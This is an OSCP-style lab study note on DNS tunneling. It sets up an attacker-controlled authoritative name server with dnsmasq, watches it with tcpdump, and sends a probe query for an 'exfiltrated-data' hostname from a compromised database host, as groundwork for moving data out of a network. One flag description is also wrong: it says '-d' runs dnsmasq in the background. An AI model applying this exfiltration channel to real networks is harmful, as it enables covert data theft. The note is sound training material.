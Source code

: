 ```yaml
---
aliases:
  - DNS tunneling
  - DNS tunnel
  - dnsmasq
---
```

# DNS Tunneling
Continuing off of the same [Scenario](HTTP-tunneling.md#Scenario) (from the [HTTP tunneling](HTTP-tunneling.md) notes), in our victim's network, `MULTISERVER03` serves *as the DNS server*. So, a request from `PGDATABSEO1` for `www.example.com` would follow this path:
![](../oscp-pics/DNS-tunneling-1.png)
> [!Note]
> The firewall/ [deep packet inspection](./README.md) devices are removed to keep the diagram simple.
## Introducing an Authoritative Name Server
To further detail how [DNS](../../networking/DNS/DNS.md) resolution works, let's assume there is a second server in the [WAN](../../networking/design-structure/WAN.md) (the same network as our kali machine) called `FELINEAUTHORITY`. Assume that `FELINEAUTHORITY` is registered within this network as the [Authoritative Name Server](../../networking/DNS/DNS.md#The%20TLD%20queries%20the%20Authoritative%20Name%20Servers) for the zone `feline.corp`. This means it *stores the original DNS records* for all domains in the `feline.corp` zone.
![](../oscp-pics/DNS-tunneling-2.png)
In the diagram above, `PGDATABASE01` *cannot connect to `FELINEAUTHORITY` directly*, but it can connect to `MULTISERVER03` which is configured as the *DNS Resolver* for `PGD01`.

Assume we've established a shell on both `PGDATABASE01` and `FELINEAUTHORITY`. We can see how DNS traffic from `PGD01` flows to `FELINE` using a few command line tools:
### `dnsmasq`
[_Dnsmasq_](https://thekelleys.org.uk/dnsmasq/doc.html) is a tool which we can use to setup a DNS server pretty easily using only a few configuration files. The conf files are usually stored in `~/dns_tunneling`. 

To see how the DNS traffic flows b/w the two servers, we need to us `dnsmasq` on `FELINE` to make ig a functional DNS server. We can use the `dnsmasq.conf` configuration file for this:
```bash
kali@felineauthority:~$ cd dns_tunneling

kali@felineauthority:~/dns_tunneling$ cat dnsmasq.conf
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp
```
- `no-resolv` & `no-hosts`: tells `dnsmasq` *to ignore* `/etc/hosts` and `/etc/resolv.conf`
- `auth-zone` & `auth-server`: used to tell `dnsmasq` to act as the *authoritative name server* for the `feline.corp` zone
With these values set in the configuration file, we can use `dnsmasq` with the`-C` set to point at the configuration file. We'll also use `-d` ("no daemon") to make sure it *runs in the background*:
```bash
kali@felineauthority:~/dns_tunneling$ sudo dnsmasq -C dnsmasq.conf -d
dnsmasq: started, version 2.88 cachesize 150
dnsmasq: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset nftset auth cryptohash DNSSEC loop-detect inotify dumpfile
dnsmasq: warning: no upstream servers configured
dnsmasq: cleared cache
```
> [!Note]
> We haven't created *any DNS records* so any requests sent to the server will receive a failure response.

Remember to use [`tcpdump`](../../CLI-tools/linux/tcpdump.md)to capture traffic on `FELINE`'s `ens192` port so we can see *when DNS requests come in* (to port `53` by default):
```bash
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```
### `resolvectl`
Back on `PGDATABSE01` we can use the `resolvectl` command line tool to *verify `PGD01`'s DNS settings*. This is because DNS resolution is being handled by `systemd-resolved`:
```bash
database_admin@pgdatabase01:~$ resolvectl status
...             

Link 5 (ens224)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64

Link 4 (ens192)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64
```
Based on `Current DNS Server/s` in the output, `PGD01`'s DNS server is currently set to `MULTISERVER03`. So, any time it needs to resolve a domain name *it will query `MULTISERVER03`*. If we use `nslookup` to make a DNS request for the hostname `exfiltrated-data.feline.corp` right now, we should get an [NXDOMAIN](../../networking/DNS/DNS.md#NXDOMAIN) response (since we haven't set up any records):
```bash
database_admin@pgdatabase01:~$ nslookup exfiltrated-data.feline.corp
Server:		127.0.0.53
Address:	127.0.0.53#53

** server can't find exfiltrated-data.feline.corp: NXDOMAIN
```
The request was first sent to port `53` on `PGD01`'s [loopback](../../networking/routing/loopback.md) interface (because [_systemd-resolved_](https://manpages.ubuntu.com/manpages/xenial/man8/systemd-resolved.service.8.html) provides that port as the initial DNS resolver), but the request is then forwarded to `MULTISERVER03` and then `FELINEAUTHORITY`
> [!Note]
>  If you want to query a DNS server directly, you can give `nslookup` the IP address of the server: `nslookup exfiltrated-data.feline.corp 192.168.50.64`

Back on `FELINE` we should see the request query as output to our `tcpdump` command:
```bash
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
04:57:40.721682 IP 192.168.50.64.65122 > 192.168.118.4.domain: 26234+ [1au] A? exfiltrated-data.feline.corp. (57)
04:57:40.721786 IP 192.168.118.4.domain > 192.168.50.64.65122: 26234 NXDomain 0/0/1 (57)
```
These packets were sent to `FELINE` by `MULTISERVER`. In them we can see that a request was sent for the [A-record](../../networking/DNS/A-record.md) of `exfiltrated-data.feline.corp`. Since we have no A records for that domain on `FELINE`, `FELINE` responded with `NXDOMAIN`.
![](../oscp-pics/DNS-tunneling-3.png)

> [!Resources]
> - [_Dnsmasq_](https://thekelleys.org.uk/dnsmasq/doc.html)
> - [_systemd-resolved_](https://manpages.ubuntu.com/manpages/xenial/man8/systemd-resolved.service.8.html)